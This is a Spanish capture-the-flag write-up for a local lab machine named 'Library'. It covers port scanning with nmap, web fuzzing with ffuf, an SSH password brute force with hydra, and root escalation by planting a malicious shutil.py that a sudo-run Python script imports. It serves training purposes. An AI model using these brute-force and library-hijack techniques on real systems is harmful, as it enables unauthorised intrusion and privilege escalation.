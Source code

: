 ### Informe de máquina *"Library"*

![Máquina Library](./screenshots/01_machine.png)

Vamos a realizar la maquina "Library", como siempre vamos a empezar asignando permisos de ejecución al archivo `auto_deploy.sh` eh inicializamos la maquina con `sudo ./autodeploy ` `library.tar`

![Permisos ejecución deploy](./screenshots/02_execution_perms_deploy.png)
![Inicialización máquina](./screenshots/03_run_machine.png)

Realizamos un testeo de conexión con el comando `ping`.

![Test de conexión](./screenshots/04_ping.png)

Y realizamos un escaneo de puertos abiertos con la herramienta `nmap`, el comando usado fue:

```bash
nmap -sS --min-rate 5000 -p- -vvv -Pn -n 172.17.0.2 -oG nmap
```

- `nmap` → Comando para ejecutar herramienta nmap.
- `-sS` → Escaneo SYN ("Stealth Scan"). Envía paquetes SYN sin completar la conexión TCP (más rápido y sigiloso que -sT).
- `--min-rate 5000` → Fuerza a nmap a enviar al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-p-` → Escanea todos los 65535 puertos (en lugar de solo los más comunes).
- `-vvv` → Modo muy detallado (muestra más información en pantalla mientras se ejecuta).
- `-Pn` → No realiza detección de host (asume que el host está activo y no envía ping previo).
- `-n` → No resuelve nombres de dominio (evita consultas DNS, lo que acelera el escaneo).
- `172.17.0.2` → IP objetivo a escanear.
- `-oG nmap` → Guarda los resultados en formato "greppable" en un archivo llamado nmap.

![Escaneo nmap](./screenshots/05_nmap.png)

Encontramos los puertos `22` y `80` abiertos, procedemos a realizar un escaneo más detallada de estos.

```bash
nmap -p22,80 -sC -sV -O 172.17.0.2
```

- `nmap` → Ejecuta la herramienta de escaneo de red Nmap.

- `-p22,80` → Especifica los puertos que queremos escanear. En este caso 22 y 80.

- `-sC` → Ejecuta scripts de detección predeterminados

- `-sV` → Detección de versiones de servicios.

- `-O` → Detección del sistema operativo.

- `172.17.0.2` → Especifica la dirección IP del objetivo a escanear.

![Detalle puertos 22 y 80](./screenshots/06_detail_ports_22_80.png)

Continuamos a revisar que encontramos en la página web de inicio.

![Página web](./screenshots/07_web_page.png)

No se encuentra mucha información, solo la página por defecto de servidor Apache 2.
Procedemos a realizar un ataque de fuzzing al servidor web.

```bash
ffuf -u http://172.17.0.2/FUZZ -w /usr/share/wordlists/dirb/big.txt -t 20 -e .php,.txt,.html,.php.bak
```

![Fuzzing servidor web](./screenshots/08_fuzzing_page.png)

Encontramos que existe tambien un archivo llamado "index.php"

![Página index.php](./screenshots/09_index_php.png)

Encontramos un texto que dice `JIFGHDS87GYDFIGD` suponemos que es una posible contraseña de algun usuario del servidor.

Realizamos un ataque de fuerza bruta en busqueda de un usuario que conincida con esa contraseña

```bash
hydra -L /usr/share/wordlists/john.lst -p "JIFGHDS87GYDFIGD"  ssh://172.17.0.2 -t 10
```

![Fuerza bruta con password](./screenshots/10_find_user_carlos.png)

Accedemos al servidor por ssh con el usuario mario.
Revisamos que binarios puede ejecutar con permisos sudo con el comando `sudo -l`

![Login como carlos](./screenshots/11_login_as_carlos.png)

Encontramos que puede usar el binario python3 con privilegios hacia el archivo `/opt/script.py`.

![Permisos con privilegios mario](./screenshots/12_sudo_perms.png)

Ejecutando `cat` a ese archivo vemos que importa una libreria llamada `shutil`.
Podemos crear un archivo en ese mismo directorio `/opt` con ese mismo nombre con extención py.
Consultamos como ejecutar una shell con python en [GTFOBins](https://gtfobins.github.io/)

![Busqueda de shell con python](./screenshots/13_find_shell_python.png)

Con el comando `nano /opt/shutil.py` editamos nuestro archivo de la siguiente forma:

```python
import os
os.system("/bin/bash")
```

Guardamos el archivo.
Ahora ejecutamos el comando `sudo python3 /opt/script.py` y se nos inicia una shell, donde ejecutando el comando `whoami` observamos que somos usuarios `root`

![Login como root](./screenshots/14_root.png)
